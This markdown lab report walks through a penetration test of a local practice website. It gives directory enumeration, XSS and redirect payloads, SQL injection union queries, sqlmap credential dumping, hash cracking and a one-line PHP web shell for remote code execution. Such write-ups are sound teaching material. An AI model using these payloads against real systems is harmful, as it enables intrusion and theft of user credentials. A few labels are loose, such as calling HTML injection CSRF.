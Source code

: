 # Penetration Testing Lab Report

This report consolidates the tools, commands, and steps used during a penetration test of a lab website. The following steps cover various techniques used to identify and exploit common vulnerabilities.

## Reconnaissance, Enumeration, and Exploitation

1. **Reconnaissance**:
   - Begin by understanding the application and testing default or easy credentials.
   - Explore the application's structure and manually look for potential entry points.

2. **Directory Enumeration with DirBuster**:
   - Use `DirBuster` to enumerate directories:
     ```bash
     dirbuster -u 'http://localhost/capstone/index.php' -w /usr/share/wordlists/dirb/common.txt
     ```
   - After discovering directories, explore them to find vulnerabilities:
     - Example: Access `localhost/capstone/admin/admin.php` and encounter `index.php?message=Admins only!`.
     - Explore other juicy directories for potential hidden areas.

3. **Cross-Site Request Forgery (CSRF)**:
   - Test for CSRF by injecting HTML or scripts via URL parameters:
     ```plaintext
     http://localhost/capstone/index.php?message=message=<h1>XSS</h1>
     ```

4. **Cross-Site Scripting (XSS)**:
   - Inject a script into the message section:
     ```html
     <script>alert(1)</script>
     ```
     Example URL:
     ```plaintext
     http://localhost/capstone/index.php?message=message=<script>alert(1)</script>
     ```
   - Redirect the user to another link:
     ```html
     localhost/capstone/index.php?message=<script>window.location.href = "https://lalbudha.com.np";</script>
     ```

5. **SQL Injection**:
   - Test SQL injection by manipulating parameters in the URL:
     ```plaintext
     http://localhost/capstone/coffee.php?coffee=1' or 1=1 -- 
     ```
   - Use `union select` to find information:
     ```plaintext
     http://localhost/capstone/coffee.php?coffee=1' union select null, Table_name , null, null, null, null, null from information_schema.tables-- -
     ```
   - List columns from tables:
     ```plaintext
     http://localhost/capstone/coffee.php?coffee=1' union select null, null, null, Column_name, null, null, null from information_schema.columns-- -
     ```

6. **Brute Forcing IDs with FFuF**:
   - Generate a list of numbers for ID fuzzing:
     ```bash
     python3 -c 'for i in range(1,101): print(i)' > num.txt
     ```
   - Use `FFuF` to fuzz the IDs:
     ```bash
     ffuf -u 'http://localhost/directory/coffee.php?coffee=FUZZ' -w num.txt
     ```

7. **Cracking Hashes with SQLMAP and Hashcat**:
   - Identify the hashing algorithm using `Hashcat`:
     ```bash
     hashcat -m 3200 my-hash /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt --show
     ```
   - Use `SQLMAP` to dump user credentials:
     ```bash
     sqlmap -r test-coffee.txt -T users --dump
     ```

8. **Gaining Remote Code Execution (RCE)**:
   - After obtaining admin credentials, upload a malicious script:
     ```php
     <?php system($_GET['cmd']); ?>
     ```
   - Execute commands via the browser:
     ```plaintext
     /localhost/directory/script.php?cmd=whoami
     ```

   This should show `www-data`, confirming remote code execution access.

---

This report provides a comprehensive guide for both beginners and advanced users, covering essential tools and techniques for web application penetration testing.
